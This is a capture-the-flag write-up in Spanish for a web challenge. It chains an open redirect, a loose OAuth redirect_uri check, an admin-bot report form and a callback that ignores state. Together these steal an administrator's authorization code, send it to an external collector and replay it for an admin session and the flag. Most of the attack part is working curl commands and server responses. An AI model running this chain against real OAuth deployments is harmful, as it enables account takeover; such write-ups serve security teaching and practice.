

# [Web] Nobody puts Admin in a corner

## Descripción

El admin siempre sigue el ritmo que tú marques.

<http://44.215.124.164:9080>

## Análisis

Al entrar a la página, el servidor muestra un error indicando que el endpoint solicitado no existe, pero también revela que se trata del servicio de identidad de la Universidad AHAU. Al buscar nombres de rutas comunes, encontré varios endpoints relacionados con autenticación:

```
/authorize   400
/register    200
/token       405
/userinfo    401
/health      200
```

Primero intenté acceder a `/authorize`. Al hacer el request sin parámetros, el servidor respondía:

```
Solicitud no válida
La aplicación que solicita acceso no está registrada en el servicio de identidad.
client_id=∅
```

Esto significa que tenemos un flujo similar a OAuth, por lo que necesitamos un `client_id` válido.

Después revisé `/register`, el cual permitía registrar una cuenta institucional mediante los campos `name`, `username`, `password` y `password2`.



Al crear una cuenta, el servidor respondía:

```
Cuenta creada correctamente.
Usuario: testuser987654
Correo asignado: testuser987654@ahau.edu

Ya puedes iniciar sesión desde el Portal del Estudiante.
```

Además, proporcionaba la dirección: <http://academy.ahau.edu:8081>, pero este dominio no existe. Sin embargo, al usar la misma IP del reto forzando el dominio con `curl --resolve`:

```bash
curl -i \
  --resolve academy.ahau.edu:8081:44.215.124.164 \
  'http://academy.ahau.edu:8081/'
```

nos sirve el HTML del Portal del Estudiante. A partir de aquí realicé las solicitudes a `academy.ahau.edu` y `sso.ahau.edu` con `curl --resolve`, sin modificar `/etc/hosts`.

Al solicitar `/login` mediante `curl`, el portal redirigía hacia el SSO:

```
http://sso.ahau.edu:9080/authorize?client_id=campus-portal&redirect_uri=http://academy.ahau.edu:8081/callback&state=...&response_type=code
```

Así encontramos el `client_id` que buscábamos, `campus-portal`. El portal también tenía un endpoint `/report`, correspondiente a un programa de divulgación responsable. La página indicaba:

```
Si localizas una página o funcionalidad sospechosa, envíanos la URL y el administrador de seguridad la abrirá personalmente para verificarla.
```

Solamente se podían enviar URLs de los dos servicios del reto:

```
academy.ahau.edu:8081
sso.ahau.edu:9080
```

Esto coincidía directamente con la pista del reto, el admin "seguiría" una URL que nosotros marcáramos.

El formulario contenía además un campo oculto:

```html
<input type="hidden" name="proof" id="campo-verif" value="">
<span id="verif-src" data-v="..." hidden></span>
<script src="/static/js/ui.js"></script>
```

Al revisar `ui.js`, encontramos dos cosas importantes:

```javascript
var gw = ['/', 'ou', 't?d', 'est='].join('');
```

Esto construía la ruta:

```
/out?dest=
```

También encontramos cómo se generaba el `proof`:

```javascript
var hex = v.getAttribute('data-v');
var s = '';

for (var i = 0; i < hex.length; i += 2) {
  s += String.fromCharCode(parseInt(hex.substr(i, 2), 16));
}

f.value = s.split('').reverse().join('');
```

Por lo tanto, el `proof` se obtenía decodificando `data-v` de hexadecimal y después invirtiendo el resultado.

Aún mejor, `/out` resultó ser un open redirect:

```bash
curl -i \
  --resolve academy.ahau.edu:8081:44.215.124.164 \
  'http://academy.ahau.edu:8081/out?dest=https%3A%2F%2Fexample.com%2Fcapture'
```

respondía:

```
HTTP/1.1 302 FOUND
Location: https://example.com/capture
```

Además, mantenía parámetros:

```
/out?dest=https://example.com/capture&code=AAAA&state=BBBB
```

redirigía hacia:

```
https://example.com/capture?code=AAAA&state=BBBB
```

El siguiente paso fue revisar cómo validaba el SSO el `redirect_uri`. Usar cualquier dirección externa causa un rechazo:

```
redirect_uri=http://example.com/capture
```

con:

```
redirect_uri no autorizado
```

Sin embargo, aceptaba cualquier ruta dentro de `academy.ahau.edu`, incluyendo el open redirect:

```
redirect_uri=http://academy.ahau.edu:8081/out?dest=https://example.com/capture
```

Al enviar mediante `curl` las credenciales de nuestra cuenta de estudiante utilizando ese `redirect_uri`, el SSO respondió:

```
Location: http://academy.ahau.edu:8081/out?dest=https://example.com/capture&code=8hkWhru58wlEBN4Gd9FrTSDcy2loGAbEkdXjF1RGl78&state=CHAINTEST
```

Al pasar por `/out`, el código terminaba llegando al dominio externo:

```
https://example.com/capture?code=8hkWhru58wlEBN4Gd9FrTSDcy2loGAbEkdXjF1RGl78&state=CHAINTEST
```

Con esto ya teníamos una forma de robar un authorization code de cualquier usuario autenticado que accediera a la URL. Pero todavía teníamos otro problema: intentar intercambiar el código directamente en `/token` regresaba:

```json
{"error":"invalid_client"}
```

Sin embargo, para solucionarlo encontramos una segunda vulnerabilidad al probar `/callback`. Probando esta ruta, generé un nuevo authorization code con mi propia cuenta mediante `curl` y después llamé al callback, también con `curl`, sin proporcionar `state` ni una sesión previa del portal:

```
http://academy.ahau.edu:8081/callback?code=VXII6AcDgG86ZvNwvdmlwYJWmqD1aWCldQvoW-3weaU
```

El servidor respondió:

```
HTTP/1.1 302 FOUND
Location: /dashboard
Set-Cookie: portal_session=...
```

El callback no estaba validando correctamente `state`. Además, él mismo intercambiaba el authorization code con el SSO y creaba una sesión para el usuario correspondiente.

Al decodificar la cookie generada con nuestra cuenta obtuvimos:

```python
{
  'email': 'testuser987654@ahau.edu',
  'name': 'Test User',
  'role': 'student',
  'user': 'testuser987654'
}
```

Por lo tanto, con solo obtener un authorization code perteneciente al administrador y entregárselo al callback ya podríamos acceder.

## Extracción

Para obtener el código del administrador, utilicé <webhook.site> como destino externo y construí un authorization request cuyo `redirect_uri` apuntaba al open redirect:

```
http://sso.ahau.edu:9080/authorize?client_id=campus-portal&redirect_uri=http://academy.ahau.edu:8081/out?dest=https://webhook.site/...&state=ADMINCAPTURE&response_type=code
```

Antes de poder enviarlo al administrador, era necesario generar correctamente el `proof` del formulario. Como este valor cambia en cada sesión, primero descargué `/report` guardando la cookie:

```bash
curl -sS \
  --resolve academy.ahau.edu:8081:44.215.124.164 \
  -c /tmp/report.jar \
  'http://academy.ahau.edu:8081/report' \
  > /tmp/report.html
```

Después extraje el valor hexadecimal, lo convertí y lo invertí:

```bash
proof=$(grep -oP 'data-v="\K[0-9a-fA-F]+' /tmp/report.html | xxd -r -p | rev)
```

Finalmente envié el authorization request usando la misma sesión:

```bash
curl \
  --resolve academy.ahau.edu:8081:44.215.124.164 \
  -b /tmp/report.jar \
  -c /tmp/report.jar \
  --data-urlencode "url=$auth" \
  --data-urlencode "proof=$proof" \
  'http://academy.ahau.edu:8081/report'
```

Esta vez el servidor confirmó:

```
Reporte registrado con referencia AH-SEC.
El administrador de seguridad revisará la URL en breve.
```

Poco después llegó una petición a nuestro webhook con:

```
code=tV8VY4ugNp1jBvEiIan15RidmI9yvi2wTKnShn0N2GU
state=ADMINCAPTURE
```

Este era el authorization code generado con la sesión del administrador. Como habíamos comprobado que `/callback` no necesitaba un `state` válido, envié directamente el código capturado:

```bash
curl -i \
  --resolve academy.ahau.edu:8081:44.215.124.164 \
  -c /tmp/admin.jar \
  'http://academy.ahau.edu:8081/callback?code=tV8VY4ugNp1jBvEiIan15RidmI9yvi2wTKnShn0N2GU'
```

El portal respondió:

```
HTTP/1.1 302 FOUND
Location: /dashboard
Set-Cookie: portal_session=...
```

Al decodificar la nueva cookie obtuvimos:

```python
{
  'email': 'admin@ahau.edu',
  'name': 'Administrador del Campus',
  'role': 'admin',
  'user': 'admin'
}
```

Ya con la sesión administrativa, el dashboard mostraba un enlace hacia `/admin`. Accedí utilizando la misma cookie:

```bash
curl \
  --resolve academy.ahau.edu:8081:44.215.124.164 \
  -b /tmp/admin.jar \
  'http://academy.ahau.edu:8081/admin'
```

El panel contenía la flag.

## Flag

`AHAU{dirty_d4nc1ng_0auth_c0de_th3ft}`
